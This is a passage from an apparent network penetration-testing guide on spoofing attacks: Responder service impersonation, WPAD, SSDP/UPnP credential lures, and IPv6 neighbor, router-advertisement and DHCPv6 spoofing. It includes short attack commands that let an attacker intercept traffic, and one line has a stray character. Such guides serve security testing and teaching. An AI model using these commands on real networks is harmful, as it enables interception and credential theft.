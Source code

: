 You can impersonate services that are searched by hosts using Responder to send fake responses.  
Read here more information about [how to Impersonate services with Responder](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### [Spoofing WPAD](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)

Many browsers use Web Proxy Auto-Discovery \(WPAD\) to load proxy settings from the network. A WPAD server provides client proxy settings via a particular URL \(e.g., [http://wpad.example.org/wpad.dat](http://wpad.example.org/wpad.dat)\) upon being identified through any of the following:

* DHCP, using a code 252 entry[34](https://learning.oreilly.com/library/view/Network+Security+Assessment,+3rd+Edition/9781491911044/ch05.html#ch05fn41)
* DNS, searching for the _wpad_ hostname in the local domain
* Microsoft LLMNR and NBT-NS \(in the event of DNS lookup failure\)

Responder automates the WPAD attack—running a proxy and directing clients to a malicious WPAD server via DHCP, DNS, LLMNR, and NBT-NS.  
Read here more information about [how to Impersonate services with Responder](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### [Spoofing SSDP and UPnP devices](spoofing-ssdp-and-upnp-devices.md)

You can offer different services in the network to try to **trick a user** to enter some **plain-text credentials**. **More information about this attack in** [**Spoofing SSDP and UPnP Devices**](spoofing-ssdp-and-upnp-devices.md)**.**

### IPv6 Neighbor Spoofing

This attack is very similar to ARP Spoofing but in the IPv6 world. You can get the victim think that the IPv6 of the GW has the MAC of the attacker.

```bash
sudo parasite6 -l eth0 # This option will respond to every requests spoofing the address that was requested
sudo fake_advertise6 -r -w 2 eth0 <Router_IPv6> #This option will send the Neighbor Advertisement packet every 2 seconds
```

### IPv6 Router Advertisement Spoofing/Flooding

Some OS configure by default the gateway from the RA packets sent in the network. To declare the attacker as IPv6 router you can use:

```bash
sysctl -w net.ipv6.conf.all.forwarding=1 4
ip route add default via <ROUTER_IPv6> dev wlan0
fake_router6 wlan0 fe80::01/16
```

### IPv6 DHCP spoofing

By default some OS try to configure the DNS reading a DHCPv6 packet in the network. Then, an attacker could send a DHCPv6 packet to configure himself as DNS. The DHCP also provides an IPv6 to the victim.

